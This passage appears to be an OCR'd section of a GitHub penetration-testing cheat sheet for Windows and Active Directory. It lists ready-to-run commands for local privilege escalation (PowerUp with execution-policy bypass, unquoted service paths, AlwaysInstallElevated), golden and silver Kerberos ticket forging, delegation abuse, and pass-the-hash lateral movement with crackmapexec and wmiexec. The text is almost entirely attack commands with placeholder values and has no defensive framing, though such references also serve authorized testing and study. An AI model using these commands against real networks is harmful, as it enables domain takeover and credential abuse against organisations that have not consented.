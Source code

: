 
## ⬆️ Privilege Escalation

### Local Privilege Escalation

```powershell
# PowerUp Enumeration
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Unquoted Service Paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Always Install Elevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Domain Privilege Escalation

```bash
# Golden Ticket Attack
python3 ticketer.py -nthash krbtgt-hash -domain-sid domain-sid -domain domain.com administrator

# Silver Ticket Attack
python3 ticketer.py -nthash service-hash -domain-sid domain-sid -domain domain.com -spn service/hostname administrator
```

### Delegation Attacks

```bash
# Unconstrained Delegation
python3 findDelegation.py domain.com/username:password

# Constrained Delegation
python3 getST.py -spn target-spn -impersonate administrator domain.com/service-account:password
```

---

## 🚀 Lateral Movement

### Pass-the-Hash

```bash
# SMB Login with Hash
crackmapexec smb target-ip -u username -H ntlm-hash

# WMI Execution
python3 wmiexec.py -hashes :ntlm-hash domain.com/username@target-ip
```
